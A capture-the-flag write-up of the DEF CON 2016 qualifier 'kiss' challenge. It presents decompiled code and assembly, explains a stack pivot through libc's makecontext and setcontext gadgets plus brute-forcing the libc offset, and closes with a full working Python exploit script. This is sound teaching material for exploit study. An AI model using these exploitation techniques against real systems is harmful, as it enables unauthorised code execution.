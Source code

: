 ```yaml
---
layout: post
title: defcon qual 2016 kiss writeup
category: writeup
---
```


This problem is simple assembly challenge.


```c
void mamama()
{
  int v0; // ebx@1
  __int64 v1; // rdi@1
  unsigned __int64 v2; // rbx@1
  unsigned __int64 v3; // rax@1
  void *v4; // rbp@2
  unsigned __int64 v5; // rax@2
  unsigned __int64 buf; // [sp+8h] [bp-20h]@1

  write(1, "KISS - Keep It Simple Stupid\n", 0x1DuLL);
  v0 = open("/dev/urandom", 0);
  read(v0, &buf, 8uLL);
  close(v0);
  v1 = buf & 0x7FF;
  buf &= 0x7FFu;
  v2 = (unsigned __int64)malloc(v1) & 0xFFFFFFFFFFFFF000LL;
  write(1, "Buffer is around ", 0x11uLL);
  write_pointer(v2);
  write(1, "\n", 1uLL);
  write(1, "Binary is around ", 0x11uLL);
  write_pointer((unsigned __int64)mamama & 0xFFFFFFFFFFFFF000LL);
  write(1, "\n", 1uLL);
  write(1, "How big of a buffer do you want? ", 0x21uLL);
  v3 = sub_CE0();
  buf = v3;
  if ( v3 <= 0xA00 )
  {
    v4 = malloc(v3);
    write(1, "Waiting for data.\n", 0x12uLL);
    sub_C90(v4, buf);
    write(1, "What location shall we attempt? ", 0x20uLL);
    v5 = sub_CE0();
    buf = v5;
    if ( v2 <= v5 && v5 <= v2 + 0x1E00 )
    {
      write(1, "Good luck!\n", 0xBuLL);
      JUMPOUT(__CS__, ****(_QWORD ****)buf);
    }
    write(1, "Invalid location.\n", 0x12uLL);
    exit(0);
  }
  write(1, "Invalid size\n", 0xDuLL);
  exit(0);
}
```
I can receive heap pointer and binary base approximately, so it seems easy. but between write and JUMPOUT, there are terrible assembly codes.


```
.text:0000000000000A3F                 call    _write
.text:0000000000000A44                 mov     rax, [rsp+28h+buf]
.text:0000000000000A49                 xor     rbx, rbx
.text:0000000000000A4C                 xor     rcx, rcx
.......
.text:0000000000000A73                 xor     rsp, rsp
.......
.text:0000000000000ABE                 xorps   xmm14, xmm14
.text:0000000000000AC2                 xorps   xmm15, xmm15
.text:0000000000000AC6                 mov     rbx, [rax]
.text:0000000000000AC9                 mov     rcx, [rbx]
.text:0000000000000ACC                 mov     rdx, [rcx]
.text:0000000000000ACF                 jmp     qword ptr [rdx]

```
so all registers set to 0 except rax, rbx, rcx, rdx.
the critical problem is that WE CAN'T CALL ANY FUNCTIONS, also ret gadget can't work.

the first thing what i done is find gadget which controls rsp. there was one in libc makecontext function.

```
.text:00000000000498B0                 mov     rsp, rbx
.text:00000000000498B3                 pop     rdi
.text:00000000000498B4                 test    rdi, rdi
.text:00000000000498B7                 jz      short loc_498C1
.text:00000000000498B9                 call    setcontext
.text:00000000000498BE                 mov     rdi, rax
```

in addition, we can control full registers by setcontext, so all i did was put context structure in heap and jump to 0x498B0.

but how to find libc offset? In x86-64, difference between pie_base and libc_base is constant for one machine (I guess it happens when randomize_va_space < 2, but I'm not sure) . In my local machine, offset difference was 0x5ea000, so I brute-force the offset between 0x500000 and 0x600000. to sure it was right offset, i used EB FE (infinite loop) gadget. here is my exploit code.

```python
import pwnbox
import struct
import random

debug = True
local = False

if local and debug:
    p = pwnbox.pipe.ProcessPipe('gdb -q ./kiss')
elif local:
    p = pwnbox.pipe.ProcessPipe('./kiss')
else:
    #p = pwnbox.pipe.SocketPipe('kiss_88581d4e20dc97355f1d86b6905f6103.quals.shallweplayaga.me', 3155)\
    p = pwnbox.pipe.SocketPipe('remote.goatskin.xyz',30009)

if local and debug:
    p.read_until('(gdb) ')
    p.write('r\n')

p.read_until('is around')
buf_base = int(p.read_until('\n'),16)
p.read_until('is around')
pie_base = int(p.read_until('\n'),16)

print '%x %x' % (buf_base, pie_base)
if local:
    libc_base = 0x7ffff7a15000
else:
    offset = random.randint(0x500000,0x600000) & 0xfff000
    #libc_base = pie_base - 0x5ea000
    libc_base = pie_base - offset
    print 'libc base : %x' % libc_base

if local and debug:
    m = buf_base + 0x50
else:
    m = (buf_base + random.randint(0,0x800)) & 0xffffffffffffffffffffffffffffff8
rip = pie_base + 0x870

cont = open('sample_context','rb')
cont_data = cont.read()
cont.close()

p.read_until('want?')
contextPayload = '\x00' * 0x200

#contextPayload = struct.pack('<QQ',m+24, libc_base + 0* 0x40FF5 + 1 * 0x498B0) + contextPayload[16:]
# 0xCF974 : setcontext gadget, 0x498B0 : infinite loop gadget(to find offset)
contextPayload = struct.pack('<QQ',m+24, libc_base + 1* 0xCF974 + 0 * 0x498B0) + contextPayload[16:]
contextPayload = contextPayload[0:0xE0] + struct.pack('<Q',m) + contextPayload[0xE8:]

r8 = 1
r9 = 2
r12 = 3
r13 = 4
r14 = 5
r15 = 15
rdi = 6
rsi = 7
rbp = 8
rbx = 9
rdx = 10
rcx = 11
retaddr = 0x12341234
rsp = m

regs = [r8, r9, 0, 0, r12, r13, r14, r15, libc_base + 0x17CCDB, rsi, rbp, rbx, rdx, 0, rcx, rsp, libc_base + 0x46640] # rdi + 0x28 ~ rdi + 0xA0


s = ''
for i in regs:
    s = s + struct.pack("<Q", i)

contextPayload = contextPayload[0:0x28] + s + contextPayload[0xB0:]

payload = struct.pack('<QQ',m+8,m+16) + contextPayload


print contextPayload.encode('hex')
p.write('%x\n' % len(payload))

p.read_until('Waiting for data.')
p.write(payload)

p.read_until('?')

p.write('%x\n' % m)


p.interact()
```